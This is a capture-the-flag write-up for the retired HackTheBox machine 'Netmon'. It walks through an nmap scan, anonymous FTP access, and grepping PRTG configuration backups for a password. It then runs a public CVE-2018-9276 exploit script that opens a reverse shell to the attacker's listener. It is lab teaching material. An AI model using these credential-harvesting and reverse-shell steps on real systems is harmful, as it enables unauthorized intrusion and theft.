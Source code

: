 ```yaml
---
title: "Netmon - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Netmon
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Netmon
![](https://kar0nx.github.io/assets/images/writeup/3fa8184483e279369b81becafbac9dee.webp)

## Reconnaissance

IP: 10.10.10.152
### NMAP

```
nmap -T4 -p- -A 10.10.10.152
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 14:54 EST
Nmap scan report for 10.10.10.152
Host is up (0.032s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_11-10-23  09:20AM       <DIR>          Windows
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/20%OT=21%CT=1%CU=40091%PV=Y%DS=2%DC=T%G=Y%TM=67B7
OS:88E7%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10D%TI=I%CI=I%II=I%TS=A)
OS:SEQ(SP=100%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=A)OPS(O1=M53CNW8ST11%O2=
OS:M53CNW8ST11%O3=M53CNW8NNT11%O4=M53CNW8ST11%O5=M53CNW8ST11%O6=M53CST11)WI
OS:N(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=20
OS:00%O=M53CNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3
OS:(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=
OS:Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=
OS:N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y
OS:%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -6s, deviation: 0s, median: -6s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-02-20T19:56:13
|_  start_date: 2025-02-20T19:50:06
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   30.89 ms 10.10.14.1
2   31.60 ms 10.10.10.152

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.06 seconds
```

Nmap shows few open ports 21 - ftp, 80 http  - Indy httpd 18.1.37.13946, 135 - rpc, 139/445 smb.
## Website
### Site
```
http://10.10.10.152/
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250220210241.png)

As we can see site shows PRTG Network Monitor basic site, tried default credentials but doesn't work.
## FTP

```
ftp 10.10.10.152  
```

We can grab first flag here navigate to 
```
/users/public/desktop
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250220210154.png)

Let's continue exploring available resources

```
/windows/prtg configuration.dat
```

here we can find configuration files 
in this file I found username 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250220211718.png)

Searching the internet I found interesting topic on reddit.
https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/?rdt=53631
Next I found PRTG Configuration.dat.old and PRTG Configuration.dat.old.bak

```
/programdata/paessler/"PRTG Network Monitor"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250220212843.png)

get both file and explore

```
grep -B5 -A5 -i password PRTG\ Configuration.old.bak | sed 's/ //g' |sort -u| less
```

and we found password

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250220213726.png)

Unfortunately password doesn't work. We can spot that logs are from 2018 and password contains year. After changing to "PrTg@dmin2019" we can log in.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221073601.png)
## Gaining Access

https://www.rapid7.com/db/modules/exploit/windows/http/prtg_authenticated_rce/
As we can read in description, to use exploit we need to know credentials, what we have.
In this case let's try exploit without metasploit.
I found simple script on github 
https://github.com/A1vinSmith/CVE-2018-9276

set nc and run exploit
```
./exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.43 --lport 4444 --user prtgadmin --password PrTg@dmin2019
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221075949.png)

Lastly to get root flag, navigate to :

```
\Users\Administrator\Desktop
```